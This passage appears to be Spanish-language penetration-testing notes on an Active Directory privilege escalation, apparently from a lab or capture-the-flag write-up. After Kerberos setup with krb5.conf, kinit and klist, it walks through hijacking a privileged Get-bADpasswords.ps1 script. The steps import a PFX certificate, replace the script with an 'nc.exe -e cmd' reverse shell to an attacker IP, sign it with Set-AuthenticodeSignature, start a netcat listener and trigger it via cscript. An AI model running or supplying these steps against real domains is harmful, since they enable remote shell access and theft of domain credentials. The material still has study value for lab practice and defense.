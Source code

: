 ```shell
[libdefaults] 
	default_realm = <DOMINIO> 
# The following libdefaults parameters are only for Heimdal Kerberos. 
	fcc-mit-ticketflags = true 
[realms] 
	<DOMINIO> = {
		kdc = <HOSTNAME>.<DOMINO>
		admin_server = <HOSTNAME>.<DOMINO>
		}
[domain_realm]
```

Después usaremos el siguiente comando:

```shel
kinit <USUARIO>
```

Luego ponemos la contraseña y miramos a ver si el TGT es válido:

```shell
klist
```

Ahora podemos usar el parámetro `-k` para indicar que queremos usar ese TGT.

## Get-bADpasswords

El script `Get-bADpasswords.ps1` necesita acceso a las contraseñas del dominio, por lo que probablemente esté siendo ejecutado con altos privilegios

```powershell
$pass = ConvertTo-SecureString "<CONTRASEÑA_DEL_CERTIFICADO>" -AsPlainText -Force
$cert = Import-PfxCertificate -FilePath '<PATH_TO_PFX>' -Password $pass -CertStoreLocation Cert:\CurrentUser\My
$cert
```

Ahora:

```powershell
cd C:\users\public
echo "C:\path\to\nc.exe -e cmd <IP> <PORT>" > Get-bADpasswords.ps1
```

Y después:

```powershell
Set-AuthenticodeSignature -FilePath "C:\Users\Public\Get-bADpasswords.ps1" -Certificate $cert
```

Luego:

```powershell
copy Get-bADpasswords.ps1 C:\Get-bADpasswords.ps1
rlwrap nc -lvnp 443
cscript run.vbs
```
